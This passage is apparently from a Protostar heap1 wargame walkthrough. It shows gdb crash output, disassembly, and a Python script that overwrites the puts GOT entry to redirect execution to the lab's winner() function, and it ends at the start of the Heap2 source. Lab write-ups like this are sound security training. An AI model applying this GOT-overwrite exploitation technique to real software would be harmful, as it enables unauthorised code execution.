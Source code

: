 After some light fuzzing, I note that the offset before crashing is 20 bytes in the first argument.
```
(gdb) r $(python -c "print 'A' * 24 + ' BBBB'")
Starting program: /opt/protostar/bin/heap1 $(python -c "print 'A' * 24 + ' BBBB'")

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x41414141 <Address 0x41414141 out of bounds>, src=0xbffff99c "BBBB")
    at strcpy.c:40
40	strcpy.c: No such file or directory.
	in strcpy.c
```
Now to find out where in the code we are crashing, we can use `backtrace` to see at which point it crashed.
```
(gdb) backtrace
#0  *__GI_strcpy (dest=0x41414141 <Address 0x41414141 out of bounds>, src=0xbffff99c "BBBB")
    at strcpy.c:40
#1  0x0804855a in main (argc=3, argv=0xbffff844) at heap1/heap1.c:32
```
`0x0804855a` points to the memory location just before puts (or printf in the source code)
```
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	movl   $0x804864b,(%esp)
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
```
Now we can find the address that is linked from puts using `disassemble 0x80483cc`
```
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    *0x8049774
0x080483d2 <puts@plt+6>:	push   $0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
```
Now we can write in 20 A's and the puts got address.

We see through this that we can control eip with the second argument we pass to it. So after finding the address of the winner() function, we can add that in to complete the challenge.
### ExploitCode
```
import struct

PUTS_GOT = struct.pack("<L",0x8049774)
WINNER = struct.pack("<L",0x08048494)

payload = ""
payload += "A" * 20
payload += PUTS_GOT
payload += " "
payload += WINNER

print(payload)
```

## Heap2
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

```
